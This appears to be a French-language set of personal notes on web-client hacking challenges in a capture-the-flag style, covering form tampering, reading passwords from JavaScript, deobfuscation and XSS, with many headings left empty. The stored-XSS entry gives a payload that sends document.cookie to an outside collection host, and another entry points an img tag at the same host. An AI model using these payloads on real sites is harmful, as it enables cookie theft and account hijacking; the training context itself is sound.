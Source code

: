## Web Client - Hacking

1 : Activer un form qui est désactivé par défaut en HTML
--------------------------------------------------------

Console


    var input = document.body.getElementsByTagName("input");
    for(i=0; i<input.length; i++)
    {
      if( typeof(input[i]) != 'undefined' )
          input[i].disabled = false;
    }


Morale : Le HTML peut être modifié et détourné

2. Javascript authentification
--------------------------

   Chercher dans les outils de développeurs, le script de login.js
   Morale : Les fichiers Js peuvent être visible et leurs informations sensibles, dans F12->application->Frame->Script

3. Javascript source ( même astuce que précédemment )
--------------------------

4. Javascript authentification 2  ( même astuce que précédemment )
--------------------------

5. Javascript - obfuscation 1
--------------------------

   1. Chercher le fichier JS
   2. Trouver la chaine password
   3. passer la chaine dans la fonction

5. Javascript - obfuscation 2
--------------------------

   1. Chercher le pass dans js
   2. prendre la partie exadécimale du pass
   3. unescape('%28104%2C68%2C117%2C102%2C106%2C100%2C107%2C105%2C49%2C53%2C54%29');
   4. console.log(String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54));

6. Javascript - native code
--------------------------

   1. Trouver le code pass natif
   2. Tostring sur le code native ( en enlevant les dernières parentheses pour enlever le mode function du code natif.

7. Javascript - webpack
--------------------------

   1. Chercher le flag dans les sources webpack


8. Javascript - Obfuscation 3
--------------------------------


8. XSS - stockée 1
--------------------------------

savoir si un formulaire permet l'éxécution de code :


    <script>console.warn('code executed');</script>
    <script>alert('code executed');</script>


Injection de HTML ( et <script> ) dans un form non sécurisé, pour recuperer un cookie sur un hooker a cookie ( avec mdp,..)


    <script>window.location="https://sacha.free.beeceptor.com?cookie="+document.cookie</script>


9. CSP Bypass - Inline code
----------------------------

10. CSRF - 0 protection
----------------------------


11. Flash - Authentification
----------------------------

12. CSP Bypass - Dangling markup
----------------------------


13. CSP Bypass - JSONP
----------------------------

14. CSRF - contournement de jeton
----------------------------

15. XSS - Volatile
----------------------------

essai:
Jouer avec l'URL, et le document cookie à envoyer sur un hooker de cookie

    <img src="https://sacha.free.beeceptor.com" onload=(alert('error'); >

16. CSP Bypass - Dangling markup 2
----------------------------

17. Javascript - Obfuscation 4
----------------------------

18. XSS - Stockée 2
----------------------------

19. HTTP Response Splitting
----------------------------

20. Javascript - Obfuscation 5
----------------------------

21. XSS - Stored - contournement de filtres
----------------------------

22. XSS - DOM Based
----------------------------
